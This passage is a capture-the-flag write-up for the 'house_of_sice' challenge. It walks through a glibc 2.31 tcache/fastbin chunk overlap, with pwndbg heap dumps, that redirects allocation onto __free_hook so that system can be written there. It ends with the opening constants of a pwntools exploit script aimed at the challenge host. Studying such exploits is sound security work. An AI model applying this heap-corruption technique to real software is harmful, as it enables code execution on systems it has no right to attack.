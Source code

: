 Well... what do u know? We've got an overlap between `tcachebins[0x20][0/7]` and `fastbins[0x20][0]`, both pointing to `0x555555758380` and `0x555555758370` respectively (note that fastbin pointers point at data-0x10). Therefore, both chunks share the `0x0000555555758340` metadata (next chunk pointer).

The following steps would yield the above heap configuration:

1. malloc 8 chunks
2. free 7 chunks (fills up 0x20 tcachebin)
3. free the remaining chunk (goes into 0x20 fastbin)
4. malloc 1 chunk (from the tcachebin)
5. free fastbin chunk again

How does this improve our situation? We're still short of allocations right? Yes... but actually no.

```
pwndbg> vis

0x555555758290  0x0000000000000000 0x0000000000000021    ........!.......
0x5555557582a0  0x0000000000000000 0x0000555555758010    ..........uUUU..
0x5555557582b0  0x0000000000000000 0x0000000000000021    ........!.......
0x5555557582c0  0x00005555557582a0 0x0000555555758010    ..uUUU....uUUU..
0x5555557582d0  0x0000000000000000 0x0000000000000021    ........!.......
0x5555557582e0  0x00005555557582c0 0x0000555555758010    ..uUUU....uUUU..
0x5555557582f0  0x0000000000000000 0x0000000000000021    ........!.......
0x555555758300  0x00005555557582e0 0x0000555555758010    ..uUUU....uUUU..
0x555555758310  0x0000000000000000 0x0000000000000021    ........!.......
0x555555758320  0x0000555555758300 0x0000555555758010    ..uUUU....uUUU..
0x555555758330  0x0000000000000000 0x0000000000000021    ........!.......
0x555555758340  0x0000555555758320 0x0000555555758010     .uUUU....uUUU.. <-- fastbins[0x20][0]
0x555555758350  0x0000000000000000 0x0000000000000021    ........!.......
0x555555758360  0x00000000deadbeef 0x0000000000000000    ................
0x555555758370  0x0000000000000000 0x0000000000000021    ........!.......
0x555555758380  0x0000155555328e48 0x0000000000000000    H.2UU........... <-- tcachebins[0x20][0/7]
0x555555758390  0x0000000000000000 0x0000000000020c71    ........q....... <-- Top chunk

pwndbg> bins

tcachebins
0x20 [  7]: 0x555555758380 —▸ 0x155555328e48 (__free_hook) ◂— 0x0

fastbins
0x20: 0x555555758340 ◂— 0x0
```

If we make use of `calloc` to allocate us the fastbin chunk overlapping `tcachebins[0x20][0/7]` and write `__free_hook` into it, we'd get the above heap configuration. Notice that we've effectively redirected the 0x20 tcachebin freelist to point to `__free_hook` by overwriting the next chunk pointer of `tcachebins[0x20][0/7]` using the fastbin overlap. Therefore, we can just `malloc` ourself 2 more chunks and get allocated a chunk overlapping the `__free_hook` entry. We can now write `system` into free hook, which pretty much sums up this challenge.

```python
from pwn import *


HOST = "house-of-sice.hsc.tf"
PORT = 1337

CHALLENGE = "./house_of_sice"
CHALLENGE_LIBC = "./libc-2.31.so"
DEBUG_LIBC = "./libc-2.31-debug.so"

CHOICE_PROMPT = b"> "
COMPLEMENTARY_MARKER = b"complimentary deet: "

```